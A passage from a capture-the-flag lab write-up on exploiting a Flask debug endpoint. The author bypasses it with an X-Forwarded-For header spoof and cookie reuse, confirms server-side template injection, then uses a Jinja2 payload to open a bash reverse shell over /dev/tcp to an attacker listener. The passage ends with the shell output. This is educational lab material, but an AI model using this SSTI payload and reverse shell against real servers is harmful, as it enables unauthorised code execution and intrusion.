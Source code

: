 ```
curl 'http://10.10.5.80:7777/debug?debug=7*7&password=[REDACTED]' -I
```
```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Wed, 27 Sep 2023 11:44:33 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSMtcyV9JRKkgsLi..[REDACTED]; HttpOnly; Path=/
Connection: close
```
and we got the session cookie now let's add all things together and access the result page :

```
curl 'http://10.10.5.80:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=eJyrVkpJTSpNV7JSMtc[REDACTED]'
```

we finally got access to the debugResult page and we see that our input from the debug statement is reflected on the page, and since this is running flask, that makes it vulnerable to Server Side Template Injection, to confirm that, let's create another debug statement with the value {{7*7}}, and see if it will execute, if we get the output as 49, we will know for sure that it's vulnerable

```
curl 'http://10.10.5.80:7777/debug?debug=\{\{7*7\}\}&password=[REDACTED]' -I
```
```
debugging
<span class="result">49</span>

</code>
</pre>
```
we got 49, that confirms that it's vulnerable to ssti, now let's get a reverse shell since we can execute commands with ssti.

the payload i'll use for the reverse shell is :
```
{ {config.__class__.__init__.__globals__["os"].popen("bash -c \"bash -i >" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + " /dev/tcp/IP/PORT 0>" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + "1\"")}}
```
Using this and the password on the debug page should get you a revesre shell
It should say Executed, once then you have to open /debugresult in order to make that payload actually run, as /debug only caches it in session.

After puting the payload and paswword and pressing the debug button
Copy your cookie
To execute the payload
```
 curl 'http://10.10.5.80:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJytkMEKwjAMhl-lBGQbarsxke[REDACTED]
```

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.18.3] from (UNKNOWN) [10.10.5.80] 36364
bash: cannot set terminal process group (14): Inappropriate ioctl for device
bash: no job control in this shell
ayham@482cbf2305ae:/app$ id
id
uid=1000(ayham) gid=1000(ayham) groups=1000(ayham)
```
